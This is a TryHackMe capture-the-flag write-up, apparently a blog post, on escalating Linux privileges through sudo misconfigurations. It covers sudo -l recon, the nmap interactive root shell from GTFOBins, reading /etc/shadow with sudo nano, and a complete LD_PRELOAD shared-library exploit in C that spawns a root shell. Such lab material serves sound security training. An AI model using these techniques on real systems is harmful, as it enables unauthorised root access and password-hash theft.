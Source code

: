 ```yaml
---
layout: post
title: THM Linux Privilege Escalation - sudo
subtitle: Misusing sudo
date: 2025-04-05
tags:
  - pentest
  - tryhackme
  - redteam
  - linux
  - privesc
  - sudo
cover-img: /assets/img/sudo-priv-esc.png
thumbnail-img: /assets/img/linux-priv-esc.png
comments: true
mathjax: true
---
```

# Nature of the Task

In this task the goal is to use use `sudo` in a variety of ways to access information that would normally be out of limits to a low privilege user.

# A bit of `sudo` recon...

The first thing to do is to to run `sudo -l` as the `karen` (low privilege) user to see what's available to us:

```sh
$ sudo -l
Matching Defaults entries for karen on ip-10-10-92-255:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User karen may run the following commands on ip-10-10-92-255:
    (ALL) NOPASSWD: /usr/bin/find
    (ALL) NOPASSWD: /usr/bin/less
    (ALL) NOPASSWD: /usr/bin/nano
```

We can run 3 programs with `sudo`, namely `find`, `less`, and `nano`.

That answers the first question! Hooray!

# Capture the Flag! `find` and `cat`

The next question is to obtain the contents of `flag2.txt`. We can simply run `find` to locate the file on the system, we don't even need to run it with `sudo`!

```sh
$ find / -name "flag2.txt" 2>/dev/null
/home/ubuntu/flag2.txt
```
We can simply `cat /home/ubuntu/flag2.txt` to obtain our flag. No `sudo` needed!

# GTFOBins! `sudo nmap`

The next question requires a bit of research. *If* we had `sudo` access to `nmap`, how could we leverage this to obtain a `root` shell?

Let's head over to [GTFOBins](https://gtfobins.github.io/) and see what being able to run `nmap` with `sudo` could give us

![namp-search](/assets/img/GTFOBins-nmap-search.png)

Hmmm.... Shell? Sudo? Looks promising!

![nmap-sudo](/assets/img/GTFOBins-nmap-sudo.png)

So, looks like `sudo nmap --interactive` is enough to give us an interactive `root` shell.

# Hashed Passwords

Since we can run `sudo nano` we can simply open `/etc/shadow` and see the hash of Frank's password!

![etc-shadow](/assets/img/nano-etc-shadow-linux-priv-esc.png)

# `LD_PRELOAD`

If our `sudo -l` had found that `env_keep+=LD_PRELOAD` we could have leveraged this to get a root shell. On either the target or our attacking machine, we'd need to compile the following C source code  (`shell.c`):

```c
#include <stdio.h>  
#include <sys/types.h>  
#include <stdlib.h>  
  
void _init() {  
unsetenv("LD_PRELOAD");  
setgid(0);  
setuid(0);  
system("/bin/bash");  
}
```

We'd compile with the following parameters:

```bash
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
```

We'd need to get it on the target in a writable directory that we could execute from, and then we'd run it as follows:

```sh
sudo LD_PRELOAD=/home/user/ldpreload/shell.so <any binary we can run with sudo>
```

# Recap and Takeaways

- `sudo -l` is your first stop in any privilege escalation attempt — it reveals what commands can be run as root.
    
- You don’t always need `sudo` to find flags; simple tools like `find` and `cat` still go a long way.
    
- GTFOBins is an essential resource — it tells you exactly how to weaponize `sudo` permissions for common binaries like `nmap`.
    
- Tools like `nano` and `less` may seem harmless, but with `sudo`, they let you read protected files like `/etc/shadow`.
    
- The `LD_PRELOAD` technique is powerful — if environment variables are preserved with `sudo`, it can be used to inject a shared library and pop a root shell.